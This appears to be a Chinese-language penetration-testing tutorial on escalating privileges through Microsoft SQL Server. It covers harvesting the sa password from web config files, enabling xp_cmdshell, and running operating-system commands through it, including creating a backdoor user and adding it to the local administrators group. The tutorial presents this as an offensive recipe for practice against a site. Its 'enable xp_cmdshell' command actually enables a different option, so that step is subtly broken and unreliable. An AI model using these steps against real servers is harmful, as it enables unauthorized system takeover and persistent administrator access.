



## 1、简介

如果网站里面使用的数据库是sqlserver  那么如果找到sa的密码，利用提权脚本，执行命令，但是不一定的系统权限，还要看管理员开始安装sqlserver的权限设置。

## 2、查找帐号和密码

web.config
config.asp
conn.aspx
database.aspx

## **3、开启xp_cmdshell**

开启xp_cmdshell

```bash
Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;
```

添加用户，查看相应信息

```bash
Exec master.dbo.xp_cmdshell 'net user'
Exec master.dbo.xp_cmdshell 'net user lx 123456 /add & net localgroup administrators lx /add'
Exec master.dbo.xp_cmdshell 'systeminfo'
```

## 4、实战

http://www.demo1.com/asp.aspx

 

密码 123456

链接mssql

 

在sql2005以后 

 

查看当前权限

 

查看当前权限也是一个普通用户。可以执行一些基础的命令，可以上传溢出提权工具 再来提高当前用户的权限。

有些时候  是一个系统权限  主要还是要看目标管理员在开始安装sqlserver的时候给的是什么样的权限。